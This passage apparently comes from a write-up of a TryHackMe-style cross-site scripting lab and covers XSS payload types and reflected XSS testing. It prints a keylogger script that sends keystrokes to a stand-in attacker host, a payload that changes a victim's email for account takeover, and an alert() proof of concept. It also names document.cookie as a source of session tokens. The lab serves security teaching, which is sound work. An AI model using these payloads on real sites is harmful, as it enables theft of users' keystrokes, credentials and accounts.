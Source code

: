 **Key Logger:**

The below code acts as a key logger. This means anything you type on the webpage will be forwarded to a website under the hacker's control. This could be very damaging if the website the payload was installed on accepted user logins or credit card details.

``<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>``

**Business Logic:**

This payload is a lot more specific than the above examples. This would be about calling a particular network resource or a JavaScript function. For example, imagine a JavaScript function for changing the user's email address called user.changeEmail(). Your payload could look like this:

``<script>user.changeEmail('attacker@hacker.thm');</script>``

Now that the email address for the account has changed, the attacker may perform a reset password attack.

The next four tasks are going to cover the different types of XSS Vulnerabilities, all requiring slightly different attack payloads and user interaction.

##   Answer the questions below

Which document property could contain the user's session token? 

Checking [https://www.w3schools.com/js/js_htmldom_document.asp](https://www.w3schools.com/js/js_htmldom_document.asp) we can see the list of document properties. document.cookie is what we're looking for since this is for session tokens.

Which JavaScript method is often used as a Proof Of Concept?

From our first example "alert". We can use ``<script>alert('XSS');</script>`` to see if we can xss.

##  Task 3 Reflected XSS

Reflected XSS happens when user-supplied data in an HTTP request is included in the webpage source without any validation.

**How to test for Reflected XSS:**

You'll need to test every possible point of entry; these include:

    - Parameters in the URL Query String
    - URL File Path
    - Sometimes HTTP Headers (although unlikely exploitable in practice)

Once you've found some data which is being reflected in the web application, you'll then need to confirm that you can successfully run your JavaScript payload; your payload will be dependent on where in the application your code is reflected (you'll learn more about this in task 6).

##   Answer the questions below

Where in an URL is a good place to test for reflected XSS? Parameters.

##  Task 4 Stored XSS 
